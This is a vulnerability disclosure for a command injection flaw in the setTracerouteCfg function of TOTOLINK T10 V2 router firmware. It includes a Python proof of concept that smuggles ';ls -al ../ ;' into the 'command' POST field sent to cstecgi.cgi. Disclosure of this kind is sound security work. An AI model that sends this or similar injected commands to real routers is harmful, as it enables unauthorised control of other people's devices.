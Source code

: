 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a command injection vulnerability in the `setTracerouteCfg ` function. The `v2` variable receives the `command` parameter from a POST request. However, since the user can control the input of `command`, the statement `doSystem` can cause a command injection vulnerability.

![image-20240902154510377](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902154510377.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"setTracerouteCfg","num":"4","command":";ls -al ../ ;"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
